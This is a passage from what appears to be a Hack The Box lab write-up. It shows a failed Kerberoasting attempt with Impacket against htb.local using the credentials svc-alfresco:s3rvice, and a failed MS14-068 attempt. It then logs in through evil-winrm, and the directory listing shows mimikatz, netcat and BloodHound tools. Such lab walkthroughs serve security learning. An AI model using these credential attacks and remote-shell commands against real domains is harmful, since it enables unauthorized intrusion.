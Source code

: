     :::text
    python GetUserSPNs.py -request htb.local/svc-alfresco:s3rvice
    Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

    No entries found


We add the DC to our `/etc/resolv.conf` and install `rdate` to have the same
time as the DC.

    :::text
    cat /etc/resolv.conf
    # Generated by NetworkManager
    search home
    nameserver 192.168.1.25
    domain htb.local
    search htb.local

    apt-get install rdate

    rdate -n htb.local
    Thu Oct 24 16:22:14 CEST 2019

I know have the same time as the DC (this is super important for tickets
generation).

    :::text
    date && rdate -n htb.local
    Thu 24 Oct 2019 04:24:55 PM CEST
    Thu Oct 24 16:24:55 CEST 2019

The exploitation of MS14-068 does not work.

## Evil-winrm

As we so in the openport, the
[default port for winrm 5985](https://docs.microsoft.com/en-us/windows/win32/winrm/installation-and-configuration-for-windows-remote-management)
is open. We use [evil-winrm](https://github.com/Hackplayers/evil-winrm) in order
to connect to the system and get user's flag:

    :::text
    evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir


        Directory: C:\Users\svc-alfresco\Documents


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       10/24/2019   6:57 AM          12510 20191024065705_BloodHound.zip
    -a----       10/24/2019   8:23 AM           3996 Add-ACE.ps1
    -a----       10/24/2019   8:23 AM           2584 Add-ToGroup.ps1
    -a----       10/24/2019   6:28 AM          64384 Invoke-ACLPwn.ps1
    -a----       10/24/2019   8:02 AM        2661697 Invoke-Mimikatz.ps1
    -a----       10/24/2019   6:33 AM        1006744 mimikatz.exe
    -a----       10/24/2019   6:25 AM         212992 mp1.exe
    -a----       10/24/2019   9:17 AM          43696 nc64.exe
    -a----       10/24/2019   6:47 AM          73802 pd.exe
    -a----       10/24/2019   7:24 AM           6017 powerPriv.ps1
    -a----       10/24/2019   9:26 AM         363295 powerview.ps1
    -a----       10/24/2019   7:12 AM           8978 Rk9SRVNU.bin
    -a----       10/24/2019   6:27 AM         779264 SharpHound.exe